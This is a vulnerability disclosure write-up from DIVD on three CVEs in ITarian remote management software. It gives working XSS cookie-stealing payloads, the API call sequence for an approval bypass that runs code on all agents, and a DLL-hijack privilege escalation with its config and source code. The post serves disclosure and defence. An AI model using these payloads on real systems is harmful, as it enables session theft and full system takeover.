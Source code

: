 ```yaml
---
layout: post
title: Itarian Full disclosure
author: Hidde Smit
researchers: 
    - Wietse Boonstra
    - Hidde Smit
excerpt: "Full disclosure of vulnerabilities discovered in Itarian products"
---
```

DIVD researchers, Hidde Smit and Wietse Boonstra, have discovered multiple vulnerabilities. Vulnerabilities in the following products have been found:
- ITarian SaaS platform
- ITarian on-premise (version 6.35.37347.20040)
- Endpoint Manager Communication Client (version 6.43.41148.21120)

ITarian is a Remote Monitoring and Management (RMM) software suite. It allows administrators to manage endpoints. Because of this powerful position within an organisation, RMM suites are often targeted by malicious actors.

Making initial contact with ITarian proved to be difficult. The vulnerabilities were discovered in December 2021. However, contact and subsequent fixes only started rolling out in May 2022.

DIVD has recently become an CVE Numbering Authority (CNA) and has used these rights to create the following CVE’s assigned to the vulnerabilities included in the write-up below:
- {% cve CVE-2022-25151 %}
- {% cve CVE-2022-25152 %}
- {% cve CVE-2022-25153 %}

The rest of this post contains the full technical write-up of the vulnerabilities. These vulnerabilities have been patched and no longer work on the latest version of ITarian software.

## Cross-Site Scripting in ITarian SaaS Service Desk module (ITarian SaaS platform)

- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform
- Reference: Case {% divd DIVD-2021-00037 %}

In order to exploit this Cross-Site Scripting (XSS) vulnerability, the victim needs to enable the Service Desk module, which is not enabled by default. The vulnerability can be exploited by visiting the victim's Support Ticket System page as shown in the screenshot below.


![Screenshot of XSS payload in a support ticket](/img/DIVD-2021-00037/CVE-2022-25151-01.png)

There are two XSS vulnerabilities. One is present in the Email Address field and the other in the Full Name field.

The payload for Email Address is: `"<script>alert(document.cookie)</script>"@something.somewhere`

The payload for Full Name is: `<script>alert(document.cookie)</script>`

The Email Address payload triggers once an ITarian MSP user has opened the ticket contents as shown in the screenshot below, the ticket might also trigger if the user hovers over the ticket to preview the content.

![Screenshot of XSS triggered in service desk module](/img/DIVD-2021-00037/CVE-2022-25151-02.png)

Using this exploit technique, it is possible to steal the `OSTSESSID` cookie and gain access to the ticketing system of the victim by visiting the direct URL, in this case: `https://{CUSTOMER_URL}.servicedesk.comodo.com/scp/tickets.php`

The cookie `token` can also be stolen, which is actually a SSO-token granting full access to the MSP dashboard without any credentials needed. This can be done by stealing the `token` cookie through XSS as demonstrated above and placing it in the MSP URL as shown below:
`https://{CUSTOMER_URL}.cmdm.comodo.com/?sso-token={token}`


## Session cookie not protected by HttpOnly flag (ITarian SaaS platform / on-premise) - CVE-2022-25151

- CVE: {% cve CVE-2022-25151 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.5
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25151 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

Being able to steal cookies exploiting XSS, is caused by the lack of HttpOnly. Both on-premise and SaaS platforms do not implement the HttpOnly flag on session cookies. Setting HttpOnly stops JavaScript from being able to access the cookie and as such mitigates XSS attacks which are trying to steal session cookies, as demonstrated with the XSS vulnerability.

## Creation of procedure and bypass approval (ITarian SaaS platform / on-premise) - CVE-2022-25152

- CVE: {% cve CVE-2022-25152 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 9.9
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25152 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

If a malicious actor gains access to the Token session cookie, he can create a procedure, bypass approval and run the procedure. Resulting in all agents running arbitrary code as SYSTEM, which could for example be used during ransomware deployment. 

The Token session cookie can be retrieved by abusing the XSS vulnerability in the Service Desk module.

Creating and bypassing approval consists of multiple steps. The vulnerability is easily exploited by calling the following three API endpoints in the following order:
1. /procedure/windows/create
2. /procedure/windows/update/id/<id>
3. /procedure/run/device-all

The first API call is used to create a procedure, the second is used to add arbitrary Python code and the last API call bypasses approval and pushes the procedure to all devices. These three steps have been automated in a Python POC which can be found [here](https://github.com/DIVD-NL/Itarian-2021-00037/blob/main/POC/CVE-2022-25152-POC.py)

## Endpoint Manager agent local privilege escalation (Endpoint Manager Communication Client) - CVE-2022-25153

- CVE: {% cve CVE-2022-25153 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.8
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25153 %}
- Solution: Make sure Endpoint Manager agent is the latest version, if not download and install the latest agent.

If a malicious actor gains low privilege access to a system where ITarian Endpoint Manager Communication Client has been installed, he will be able to escalate his privileges to SYSTEM. Gaining full access over the system by exploiting the ITarian client.

Systems that have an ITarian client installed run their processes under SYSTEM rights, as shown in the screenshot below.

![Services running as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-01.png)

`RmmService.exe` and `ITSMService.exe` do an `openssl.cnf` lookup in a folder which does not exist. A malicious user on a system with ITarian agent installed can escalate his privileges from user to SYSTEM by crafting a malicious `openssl.cnf` in the folder shown in the screenshot.

![Openssl.cnf lookup](/img/DIVD-2021-00037/CVE-2022-25153-02.png)

The steps below demonstrate running privileged commands.

Create the folder: `C:\Work\vcpkg\packages\openssl-windows_x86-windows-static-md`

Create an `opsenssl.cnf` in the newly created folder with the following content:

```
openssl_conf = openssl_init
[openssl_init]
engines = engine_section
[engine_section]
cmd = cmd_section
[cmd_section]
engine_id = cmd
dynamic_path = c:\\Work\\vcpkg\\packages\\openssl-windows_x86-windows-static-md\\whoami.dll
init = 0
```

Compile a `whoami.dll` with the following content:

```
#include "pch.h"
#include <stdlib.h>
#include <windows.h>
  
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("C:\\windows\\SysWOW64\\cmd.exe /c whoami > C:\\windows\\tasks\\whoami.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

Place both `whoami.dll` and `openssl.conf` in the folder. Restart the system or wait for the `openssl.cnf` lookup to trigger. After triggering a `whoami.txt` will be placed in `C:\windows\tasks`

![Remote code execution as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-03.png)

This can of course, be any arbitrary code, for example, a reverse shell with SYSTEM rights.
